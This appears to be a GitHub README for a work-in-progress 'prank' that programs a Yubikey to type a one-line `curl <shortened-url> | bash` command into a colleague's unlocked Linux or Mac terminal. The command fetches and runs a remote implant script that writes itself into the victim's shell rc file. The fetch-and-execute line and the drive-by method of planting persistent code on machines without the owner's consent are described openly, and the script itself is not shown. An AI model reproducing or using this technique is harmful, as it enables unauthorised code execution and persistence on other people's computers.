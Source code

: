 # unlocked-prank
A harmless prank for those poor buggers who leave their Linux or Mac machines unlocked.

** not yet finished, just here as a work in progress **

## Use

I wrote this as a quick drive-by implant.  

Those around me often leave their systems unlocked.  Messing around manually is time consuming and thus risky.

As I have a spare Yubikey I decided to utilise a slot with a static string.  This has a single stored command of:

` curl <url-shortened> | bash`

The URL shortener is used as the Yubikey has a limit of 64 characters in it's static password mode.  The shortened URL shoudl point to 
`https://raw.githubusercontent.com/auraltension/unlocked-prank/master/implant.sh`

Open a shell, plug in, press the button, remove, walk away.  The script will determine whether the system is Mac or
linux, and then the shell used by the user and implant a fun prank into their shell rc.
